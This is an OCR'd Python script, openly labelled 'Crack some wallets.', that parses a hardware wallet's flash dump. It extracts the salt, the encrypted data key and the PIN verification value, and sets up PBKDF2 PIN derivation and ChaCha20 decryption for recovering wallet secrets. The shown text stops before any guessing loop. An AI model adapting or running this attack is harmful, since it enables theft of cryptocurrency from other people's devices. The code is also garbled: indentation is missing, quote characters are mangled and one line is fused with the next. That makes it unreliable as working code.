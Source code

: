 import hashlib  
import sys  
import argparse  
import binascii  
import struct  
from Crypto.Cipher import ChaCha20\_Poly1305

parser = argparse.ArgumentParser(description=’Crack some wallets.’)  
parser.add\_argument(‘flash\_dump’, help=’The flash dump to parse.’)  
parser.add\_argument(‘–otp’, help=’Randomness from OTP as hex.’, default=44\*”00″)  
parser.add\_argument(‘–debug’, type=bool)

args = parser.parse\_args()  
flash\_file = open(args.flash\_dump, “rb”)

def find\_header():  
while True:  
data = flash\_file.read(4)  
if data == b”\\x02\\x00\\x3c\\x00″:  
return  
elif data == None:  
print(“Couldn’t find header.”)  
sys.exit(1)

find\_header()

\# Salt from flash  
salt = flash\_file.read(4)

\# EDEK + ESAK  
edek = flash\_file.read(48)  
pvc = flash\_file.read(8)

\# Salt computation:  
\# hardware\_salt (from collect\_hw\_entropy)  
\# random\_salt (Random buffer generated, stored in flash)  
\# ext\_salt – unused  
hardware\_salt = hashlib.sha256(binascii.unhexlify(args.otp)).digest()

salt\_assembled = hardware\_salt + salt  
print(f”Hardware salt: {binascii.hexlify(hardware\_salt)}”)  
print(f”Assembled salt: {binascii.hexlify(salt\_assembled)}”)

def trezor\_pbkdf(pin, salt):  
\# PIN is always prefixed with 1  
pin\_bytes = struct.pack(“if args.debug:  
print(f”PIN bytes: {binascii.hexlify(pin\_bytes)}”)  
dk = hashlib.pbkdf2\_hmac(‘sha256’, pin\_bytes, salt, 10000, dklen=352/8)  
return dk

def chacha\_enc(kek, keiv, data):  
cipher = ChaCha20\_Poly1305.new(key=kek, nonce=keiv)  
\# Return DEK & TAG  
return cipher.encrypt\_and\_digest(data)

def chacha\_dec(kek, keiv, edek):  
cipher = ChaCha20\_Poly1305.new(key=kek, nonce=keiv)  
return cipher.decrypt(edek)
